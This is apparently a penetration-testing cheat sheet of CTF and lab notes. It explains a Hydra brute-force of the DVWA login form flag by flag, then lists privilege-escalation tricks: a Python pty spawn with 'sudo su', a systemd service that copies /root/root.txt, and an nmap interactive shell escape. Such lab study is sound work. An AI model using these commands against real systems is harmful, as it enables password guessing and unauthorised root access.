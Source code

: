  Web Login Bruteforce
 
     hydra 192.168.100.155 -V -l admin -P passwordlist http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: PHPSESSID=rjevaetqb3dqbj1ph3nmjchel2; security=low"
     
     192.168.100.155 The target IP address of the server hosting the webpage
    -V Verbose this will display the login and password it tries in the terminal for each attempt.
    -l admin The small l here states that I am going to specify a username use a capital L if you are going to specify a user list.
    -P passwordlist The capital P here says I’m going to be specifying a list of passwords in a file called passwordlist.
    http-get-form Tells hydra that you are going to be using the http-get-form module.
    /dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login All these details were found in our tamper data request that we copied to our text editor.
    F=Username and/or password incorrect. This is the failed login message we received from the DVWA login page, this tells hydra when it’s not received we have a valid login.
    H=Cookie: PHPSESSID=rjevaetqb3dqbj1ph3nmjchel2; security=low This is the Cookie we were issued when we logged into the DVWA site at the start also found in the Tamper Data.
    
    
Privilege-Esclation 
====================
 
 Python
        python -c 'import pty; pty.spawn("/bin/bash")'
        sudo su
          
          
          
Through Service Creation

    $ eop=$(mktemp).service
    $ echo '[Service]
    > ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
    > [Install]
    > WantedBy=multi-user.target' > $eop
    $ /bin/systemctl link $eop
    Created symlink from /etc/systemd/system/tmp.dC4p9XdFGy.service to /tmp/tmp.dC4p9XdFGy.service.
    $ /bin/systemctl enable --now $eop
    Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.dC4p9XdFGy.service to /tmp/tmp.dC4p9XdFGy.service.
    $ cd /tmp
    $ ls -la
    $ cat output
    
    
    
Nmap

             $ nmap -V
             $ nmap --interactive
             nmap> !sh
             # whoami
             
             
